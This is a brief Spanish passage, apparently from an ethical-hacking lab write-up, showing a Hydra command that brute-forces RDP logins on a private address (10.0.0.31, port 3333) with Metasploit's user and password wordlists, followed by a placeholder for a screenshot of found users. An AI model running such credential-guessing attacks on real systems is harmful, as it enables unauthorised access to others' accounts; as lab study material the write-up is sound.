 #Hydra #PinguinoMario #HackingEtico 
```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.0.0.31 -s 3333
```
Y nos encuentra los siguientes usuarios:
![[Pasted image 20230730165016.png]]
